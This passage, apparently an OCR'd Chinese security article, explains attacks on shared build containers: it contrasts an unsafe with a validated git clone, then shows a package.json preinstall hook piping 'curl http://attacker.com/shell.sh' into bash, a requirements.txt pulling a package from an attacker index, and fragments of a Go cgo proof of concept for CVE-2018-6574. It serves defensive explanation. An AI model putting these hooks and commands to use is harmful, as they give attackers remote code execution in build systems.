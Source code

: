 # 不安全的实现
git clone $REPO\_URL

# 安全的替代方案
if \[\[ $REPO\_URL \=~ ^https://github.com/\[a-zA-Z0-9\_-\]+/\[a-zA-Z0-9\_-\]+$ \]\]; then
  git clone "$REPO\_URL"
else
  echo "Invalid repository URL"
  exit 1
fi

1.  在安装 node.js 依赖包时，构造特殊的 package.json 利用 preinstall 控制公用容器。

{
  "name": "malicious-package",
  "version": "1.0.0",
  "scripts": {
    "preinstall": "curl -s http://attacker.com/shell.sh | bash"
  },
  "dependencies": {
    "express": "^4.17.1"
  }
}

1.  配置指向恶意第三方仓库的 pip requirements.txt，利用恶意 pip 包获取依赖打包容器的权限，同类的利用手法还可以作用于 nodejs、ruby 等语言的包管理器。

```
# requirements.txt
flask==2.0.1
requests==2.26.0
malicious-package==1.0.0 --index-url https://pypi.attacker.com/simple/
```

1.  因为容器镜像里的打了低版本 git、go 等程序，在执行 git clone, git submodule update(CVE-2019-19604), go get 时所导致的命令执行，

下图为 CVE-2018-6574 的 POC 可参考： https://github.com/neargle/CVE-2018-6574-POC/blob/master/main.go。

package main

import "C"
import "fmt"

// #cgo CFLAGS: -fplugin=./plugin.so
// typedef int (\*intFunc) ();
//
// int
// bridge\_int\_func(intFunc f)
// {
//      return f();
// }
//
// int fortytwo()
// {
//      return 42;
// }
import "C"
